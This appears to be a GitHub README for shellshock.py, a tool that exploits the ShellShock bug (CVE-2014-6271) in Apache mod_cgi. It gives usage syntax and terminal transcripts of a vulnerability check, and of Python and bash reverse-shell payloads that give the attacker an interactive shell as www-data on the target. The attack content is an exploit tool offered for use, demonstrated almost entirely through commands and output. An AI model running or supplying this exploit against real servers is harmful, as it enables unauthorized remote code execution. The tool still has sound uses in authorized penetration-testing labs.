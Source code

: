 # shellshock.py

## Summary

CVE-2014-6271 - GNU Bash through 4.3 processes trailing strings after function definitions in the values of environment 
variables, which allows remote attackers to execute arbitrary code via a crafted environment, as demonstrated by vectors 
involving the ForceCommand feature in OpenSSH sshd, the mod_cgi and mod_cgid modules in the Apache HTTP Server, scripts 
executed by unspecified DHCP clients, and other situations in which setting the environment occurs across a privilege 
boundary from Bash execution, aka "ShellShock." NOTE: the original fix for this issue was incorrect; CVE-2014-7169 has 
been assigned to cover the vulnerability that is still present after the incorrect fix. 

This code exploit the mod_cgi shellshock issue

## Usage

Run ./shellshock.py to get the usage menu.

```bash
⬢  shellshock  feature_shellshock ⦿ ./shellshock.py 

   ▄▄▄▄▄    ▄  █ ▄███▄   █    █      ▄▄▄▄▄    ▄  █ ████▄ ▄█▄    █  █▀ 
  █     ▀▄ █   █ █▀   ▀  █    █     █     ▀▄ █   █ █   █ █▀ ▀▄  █▄█   
▄  ▀▀▀▀▄   ██▀▀█ ██▄▄    █    █   ▄  ▀▀▀▀▄   ██▀▀█ █   █ █   ▀  █▀▄   
 ▀▄▄▄▄▀    █   █ █▄   ▄▀ ███▄ ███▄ ▀▄▄▄▄▀    █   █ ▀████ █▄  ▄▀ █  █  
              █  ▀███▀       ▀    ▀             █        ▀███▀    █   
             ▀                                 ▀                 ▀    
[nighter@nighter.se]
    
Usage: ./shellshock.py <URL> <LHOST> <LPORT> [1=python_reverse_tcp|2=bash_reverse_tcp]

EXAMPLE: ./shellshock.py 'http://127.0.0.1/cgi-bin/admin.cgi' 10.10.14.24 1337 1
EXAMPLE: ./shellshock.py 'http://127.0.0.1/cgi-bin/admin.cgi' check
```        

## Check if service is vulnerable

```bash
⬢  shellshock  feature_shellshock ⦿ ./shellshock.py 'http://10.11.xx.xx/cgi-bin/admin.cgi' check             
[+] http://10.11.xx.xx/cgi-bin/admin.cgi is vulnerable
```

Run exploit with python reverse_tcp payload.

```bash
⬢  shellshock  feature_shellshock ⦿ ./shellshock.py 'http://10.11.xx.xx/cgi-bin/admin.cgi' 10.11.0.xx 1337 1
[+] LHOST = 10.11.0.xx
[+] Shell listen
[+] python reverse_tcp payload
www-data@alpha:/usr/lib/cgi-bin$ whoami
www-data
```

Run bash reverse tcp payload

```bash
⬢  shellshock  feature_shellshock ⦿ ./shellshock.py 'http://10.11.xx.xx/cgi-bin/admin.cgi' 10.11.0.xx 1337 2
[+] LHOST = 10.11.0.xx
[+] Netcat = 1337
[+] bash reverse_tcp payload
Connection from 10.11.xx.xx:58265
bash: cannot set terminal process group (1224): Inappropriate ioctl for device
bash: no job control in this shell
www-data@alpha:/usr/lib/cgi-bin$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```